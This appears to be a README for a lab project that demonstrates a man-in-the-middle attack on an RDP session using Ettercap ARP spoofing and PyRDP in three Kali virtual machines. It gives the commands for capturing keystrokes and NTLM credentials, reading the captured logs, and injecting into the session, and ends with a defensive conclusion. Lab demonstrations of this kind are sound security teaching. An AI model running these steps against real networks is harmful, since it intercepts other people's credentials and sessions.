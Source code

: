 
# RDP MITM Attack Project

## Objective
Demonstrate a Man-in-the-Middle (MITM) attack on a Remote Desktop Protocol (RDP) session to capture sensitive data and highlight the importance of securing remote connections.

## Prerequisites
- **Operating System**: Kali Linux (3 virtual machines)
- **Tools**:
  - PyRDP (RDP MITM tool)
  - Ettercap (ARP spoofing)
  - Remmina (RDP client)
  - Wireshark (optional, for traffic analysis)
  - xRDP (RDP service on the server machine)

---

## Installation Steps

### Step 1: Environment Setup

#### Install xRDP on Machine A (Server)
```bash
sudo apt update
sudo apt install xrdp -y
sudo systemctl enable xrdp
sudo systemctl start xrdp
sudo ufw allow 3389/tcp
```

#### Verify xRDP Installation
```bash
sudo systemctl status xrdp
```

#### Install Remmina on Machine B (Client)
```bash
sudo apt update
sudo apt install remmina remmina-plugin-rdp -y
```

#### Install Tools on Machine C (MITM)
```bash
sudo apt update
sudo apt install ettercap-text-only -y
pip install pyrdp
sudo apt install wireshark -y
```

---

### Step 2: ARP Spoofing Configuration on Machine C

#### Launch Ettercap
```bash
sudo ettercap -G
```
1. Select Network Interface.
2. Scan for Hosts in the Network.
3. Add Target 1: Machine A (Server).
4. Add Target 2: Machine B (Client).
5. Enable ARP Spoofing.

---

### Step 3: Launch PyRDP on Machine C
```bash
pyrdp-mitm --output-dir ./logs
```

---

### Step 4: Establish RDP Connection from Machine B to Machine A
1. Launch Remmina on Machine B.
2. Configure RDP Connection to the IP of Machine A.

---

### Step 5: Monitor and Analyze Traffic on Machine C

#### View Logs Captured by PyRDP
```bash
ls ./logs
```

#### Analyze Captured Keystrokes and Credentials
```bash
cat ./logs/mitm.log
cat ./logs/ntlmssp.log
```

#### Optional: Analyze Network Traffic with Wireshark
```bash
sudo wireshark
```

---

### Step 6: Inject Commands into RDP Session
```bash
pyrdp-inject --target <Target IP> --message "Hello from MITM"
```

---

### Additional Verification Commands

#### Verify ARP Table on Machine B
```bash
arp -a
```

#### Verify Open Ports on Machine A
```bash
sudo netstat -tuln | grep 3389
```

#### Check Network Connectivity
```bash
ping <IP of Machine A>
```

---

## Conclusion
This project demonstrates the vulnerability of RDP sessions to MITM attacks when proper security measures are not implemented. By following this guide, users can understand how attackers exploit insecure configurations and can take proactive steps to secure remote connections using encryption, strong authentication, and network segmentation.

## References
- [PyRDP Documentation](https://github.com/GoSecure/pyrdp)
- [Ettercap Official Website](https://www.ettercap-project.org/)
- [Wireshark User Guide](https://www.wireshark.org/docs/)
- [Kali Linux Tools](https://tools.kali.org/)

---

## License

This project is licensed under the MIT License. See the details below:

```
MIT License

Copyright (c) 2025 [Your Name or Organization]

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```
